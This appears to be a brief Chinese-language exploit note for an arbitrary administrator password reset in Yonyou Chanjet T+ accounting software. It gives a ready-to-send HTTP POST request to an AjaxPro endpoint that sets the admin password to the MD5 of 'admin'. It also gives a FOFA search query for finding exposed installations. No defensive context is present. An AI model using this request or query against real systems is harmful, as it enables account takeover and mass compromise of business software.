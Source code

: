 用友畅捷通T+<br>
管理员密码任意重置漏洞:<br>
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd HTTP/1.1<br>
{"pwdNew":"21232f297a57a5a743894a0e4a801fc3"}<br>
FOFA:<br>
app="畅捷通-TPlus"<br>
